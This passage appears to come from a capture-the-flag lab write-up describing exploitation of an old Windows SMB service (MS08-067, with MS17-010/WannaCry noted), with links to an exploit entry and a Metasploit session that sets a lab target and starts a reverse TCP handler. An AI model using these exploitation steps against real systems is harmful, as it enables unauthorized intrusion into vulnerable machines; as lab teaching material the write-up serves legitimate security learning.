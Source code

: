 If our enumeration has been correct so far, this is almost a stopping point. We know the OS, SMB version, the CVE, and the exploit. And everything lines up really well. Not a lot of chances for failure here. But always keep reading before firing something off, your little copy and paste pew pew could really wreck a machine if you're not careful.  


#### CVE-2017-0143
Okay so before we dig into this. Think back to 2017 and try to remember some sort of massive worldwide scare involving SMB... do you remember? Yeahhhhhh. WannaCry? This bad boy right here is also known as MS17-010. I imagine this machine could be broken into using either of these CVEs but I chased the above method. But for reference, here are some links.  

https://www.exploit-db.com/exploits/41891  
https://www.cvedetails.com/cve/CVE-2017-0143/  


#### Exploitation and Gaining Access

**Trying out CVE-2008-4250 aka MS08-067**  

So this exploit has two methods, Metasploit and of course finding the exploit online. Or I mean... if you're a big shot, maybe develop your own exploit.  

#### Manual Exploit
>Adding this section soon


#### Metasploit
After I saw that Metasploit was an option here, I quickly fired a Metasploit missile at this silly boy. You can use the search function in Metasploit to find a module called ```exploit/windows/smb/ms08_067_netapi```. It was super easy to run. Note that sometimes exploits revolving around MS08-067 and MS17-010 can be finicky. You might have to try it a couple times. Here is what it looked like in Metasploit.  

- Search for the exploit
- use the ```use``` command and the name of the exploit
- check the options with ```options```
- set necessary ```options```
- ```run```


```
msf5 > use exploit/windows/smb/ms08_067_netapi
msf5 exploit(windows/smb/ms08_067_netapi) > options

Module options (exploit/windows/smb/ms08_067_netapi):

Name     Current Setting  Required  Description
----     ---------------  --------  -----------
RHOSTS                    yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
RPORT    445              yes       The SMB service port (TCP)
SMBPIPE  BROWSER          yes       The pipe name to use (BROWSER, SRVSVC)

Exploit target:

Id  Name
--  ----
0   Automatic Targeting

msf5 exploit(windows/smb/ms08_067_netapi) > rhosts 10.10.10.4
[-] Unknown command: rhosts.
msf5 exploit(windows/smb/ms08_067_netapi) > set rhosts 10.10.10.4
rhosts => 10.10.10.4
msf5 exploit(windows/smb/ms08_067_netapi) > run

[*] Started reverse TCP handler on 10.10.14.17:4444 
[*] 10.10.10.4:445 - Automatically detecting the target...
```